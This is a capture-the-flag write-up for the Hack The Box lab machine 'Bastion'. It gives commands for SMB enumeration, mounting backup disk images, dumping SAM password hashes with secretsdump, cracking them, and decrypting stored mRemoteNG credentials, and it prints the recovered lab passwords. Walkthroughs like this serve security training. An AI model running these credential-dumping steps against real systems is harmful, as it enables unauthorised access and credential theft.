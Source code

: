 # [Bastion](https://app.hackthebox.com/machines/bastion)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.134 -Pn
```

![Alt text](img/image.png)


After knowing open ports(22,135,139,445), we can do greater nmap sacn for these ports.

```bash
nmap -A -sC -sV -p22,135,139,445 10.10.10.134 -Pn
```

![Alt text](img/image-1.png)

Let's enumerate SMB via `smbmap` command.

```bash
smbmap -H 10.10.10.134
```

This doesn't work, that's why I need to write username via '**guest**' field.

```bash
smbmap -H 10.10.10.134 -u guest
```

![Alt text](img/image-2.png)

Let's connnect 'Backups' share via `smbclient` tool.

```bash
smbclient -N //10.10.10.134/backups 
```

![Alt text](img/image-3.png)


To see everything from share, let's mount all of them.

```bash
mount -t cifs //10.10.10.134/backups /home/kali/Desktop/backups -o user=guest
```

![Alt text](img/image-4.png)


Let's look at 'backups' folder on our desktop. First, we search files via `find` command.

```bash
find /home/kali/Desktop/backups -type f
```

![Alt text](img/image-5.png)


Here, I see two **disk image**`.vhd` files.


To see this files what inside of this, I just find this [link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25).

Let's do this via `guestmount` command .

```bash
guestmount --add /home/kali/Desktop/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /home/kali/Desktop/vh2 -v
```

![Alt text](img/image-6.png)



Here, I dumped all data as you see below.


Now, I need to dump password of user, for this I need to get SAM table of this machine, I use this [link](https://www.hackingarticles.in/credential-dumping-sam/)

![Alt text](img/image-7.png)


As default, 'SAM' and 'SYSTEM' files are located on this location 'Windows/System32/config'.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam /home/kali/Desktop/vh2/Windows/System32/config/SAM -system /home/kali/Desktop/vh2/Windows/System32/config/SYSTEM LOCAL
```

![Alt text](img/image-8.png)


Let's take NTLM hash of 'L4mpje' user and crack on [Crackstation](https://crackstation.net/)

![Alt text](img/image-9.png)


We have below valid credentials.

L4mpje:bureaulampje


user.txt

![Alt text](img/image-10.png)


I just start to enumerate Windows machine for the whole, I found 'mRemoteNG' folder on C:\Program Files (x86)

![Alt text](img/image-11.png)

Then, again I searched machine, found xml file (**confCons**.xml) which has password hash of 'Administrator' user.

It is located on "C:\Users\L4mpje\AppData\Roaming\mRemoteNG\"

![Alt text](img/image-12.png)



Here's what, let's try to decrypt this.

![Alt text](img/image-13.png)

I find such [script](https://github.com/haseebT/mRemoteNG-Decrypt) on Github.

![Alt text](img/image-14.png)


Password of administrator is 'thXLHM96BeKL0ER2'.

administrator: thXLHM96BeKL0ER2


After we have valid credentials, we can login.


root.txt

![Alt text](img/image-15.png)


## REMINDER
I know that a lot of you have problem about after CTF that deleting mounted folder. For this you need to below steps. (mount command consequences)

```bash
fuser -m [mount_location] # it returns process id
kill -9 [process_id]
umount [mount_location]
```


For (guestmount command consequences) , you need to below ones.

```bash
fusermount -u [guestmount_location]
rmdir [guestmount_location]
```
